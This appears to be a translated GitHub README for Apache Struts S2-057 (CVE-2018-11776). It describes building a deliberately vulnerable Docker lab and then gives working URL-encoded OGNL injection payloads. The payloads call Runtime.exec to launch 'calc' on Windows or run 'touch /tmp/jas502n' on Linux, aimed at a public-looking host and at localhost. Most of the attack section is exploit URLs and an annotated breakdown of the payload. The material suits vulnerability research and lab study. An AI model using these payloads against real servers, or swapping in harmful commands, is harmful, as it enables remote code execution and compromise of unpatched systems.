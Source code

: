 # Credit to jas502n

Check Master for any updates and fixes. Translation purposes only. (I will try and update fixes)
```
Master https://github.com/jas502n/St2-057
```
# St2-057 Online Docking Environment, Enjoy!


# 0x01 Setting up the environment docker

https://github.com/surbo/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

# 0x02 Build a st2-057 vulnerability environment

```
docker exec -i -t 88fd8d560155 /bin/bash
```
Start in the background and enter docker

![](./docker-struts-048.jpg)


According to the announcement
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```
![](./in-st2-57.jpg)
There is a s2-057 vulnerability in Struts 2.5.16, then download this version.

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/


```
apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```
![](./wget-st2-057.jpg)

# 0x03 Modifying the configuration file

First find the file struts-actionchaining.xml, and found that there are 2 need to modify
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
Profile modification - reference link:
https://lgtm.com/blog/apache_struts_CVE-2018-11776

Change to the following:

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.actionchain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
![](./struts-actionchaining.jpg)

Then go to the bin directory, kill the process, because the configuration file is modified, so you need to restart the service.
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```
![](./down.jpg)

# 0x04 Restart the service, st2-057 is completed.
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```
![](./start.jpg)
# 0x05 Verify st2-057
Docker target::http://www.canyouseeme.cc:8080/Struts2-showcase/

Command execution:http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionchain1.action

${(111+111)}

Get the execution result returned in the url::http://www.canyouseeme.cc:8080/Struts2-showcase/222/register2.action

![](./st2-57.jpg)

#### Ps: ${(111+111)} can be replaced with the previous poc, such as S2-032

http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2c%23b%3dnew+java.io.InputStreamReader(%23a)%2c%23c%3dnew++java.io.BufferedReader(%23b)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read(%23d)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23jas502n.println(%23d+)%2c%23jas502n.close())%7d/actionChain1.action

![](./calc.jpg)

poc-example:
```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}
```
Split
```
${
(
#_memberAccess["allowStaticMethodAccess"]=true,
#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),
#b=new java.io.InputStreamReader(#a),
#c=new java.io.BufferedReader(#b),
#d=new char[51020],
#c.read(#d),
#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#jas502n.println(#d),
#jas502n.close())
}
```
# 0x06 Use the old version of the bomb calculator or command to execute
(Vulnerability environment: struts-2.2.3.1-all.zip)
download link: http://archive.apache.org/dist/struts/binaries/struts-2.2.3.1-all.zip

![](./struts-2.2.3.1.jpg)

Ps: The pit is a low version capable of playing the calculator, the high version cannot

Windows:

```
http://127.0.0.1:8080/struts3-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec('calc').getInputStream()%2c%23b%3dnew%20java.io.InputStreamReader(%23a)%2c%23c%3dnew %20java.io.BufferedReader(%23b)%2c%23d%3dnew%20char%5b51020%5d%2c%23c.read(%23d)%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23sbtest.println(%23d)%2c%23sbtest.close())%7d/actionChain1.action
```
![](./windows.png)

Linux:

```
http://www.canyouseeme.cc/struts3-showcase/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27touch /tmp/jas502n%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
```
![](./linux.png)

# 0x07 Reference link

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://cwiki.apache.org/confluence/display/WW/S2-057
https://www.anquanke.com/post/id/157518
```


